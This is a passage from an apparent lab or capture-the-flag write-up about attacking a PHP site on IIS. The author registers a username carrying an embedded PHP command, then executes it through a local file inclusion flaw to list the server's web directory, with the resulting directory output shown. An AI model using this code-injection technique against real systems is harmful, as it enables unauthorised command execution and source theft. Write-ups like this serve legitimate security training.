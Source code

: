     04/11/2019  05:23 AM    <DIR>          .
    04/11/2019  05:23 AM    <DIR>          ..
    04/11/2019  05:28 AM             4,341 blog-en.php
    04/11/2019  05:28 AM             4,487 blog-es.php
    04/11/2019  05:28 AM             4,489 blog-fr.php
    04/11/2019  05:23 AM    <DIR>          css
    04/11/2019  05:25 AM             1,357 error.md
    04/11/2019  05:25 AM             1,331 header.md
    04/11/2019  08:31 PM               442 index.php
    04/11/2019  05:23 AM    <DIR>          js
                   6 File(s)         16,447 bytes
                   4 Dir(s)  16,987,619,328 bytes free



#### Leak Source

I want to get the source for `registration.php` so I can understand the
filters I'm trying to bypass. But when I try to change directories
registering as a user with any characters like `..` and `\`, the login
fails, presumably because of the filtering again.

I was able to fumble around enough to get this username registered and
logged in:



    a<?php echo `dir \\inetpub\\wwwroot\\user` ?>b



Now using the LFI returned:



     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640

     Directory of C:\inetpub\wwwroot\user

    10/01/2019  08:44 AM    <DIR>          .
    10/01/2019  08:44 AM    <DIR>          ..
    04/11/2019  05:15 PM               108 auth.php
    04/11/2019  05:52 AM    <DIR>          css
    04/11/2019  10:51 AM               337 db.php
    04/11/2019  05:23 AM    <DIR>          fonts
    04/11/2019  05:23 AM    <DIR>          images
    04/11/2019  06:18 AM             4,639 index.php
    04/11/2019  05:23 AM    <DIR>          js
    04/11/2019  06:10 AM             6,463 login.php
    04/08/2019  11:04 PM               148 logout.php
    10/01/2019  08:42 AM             7,192 registration.php
    08/14/2019  10:35 PM             7,004 registration_old123123123847.php
    04/11/2019  05:23 AM    <DIR>          vendor
                   7 File(s)         25,891 bytes
                   7 Dir(s)  16,987,619,328 bytes free


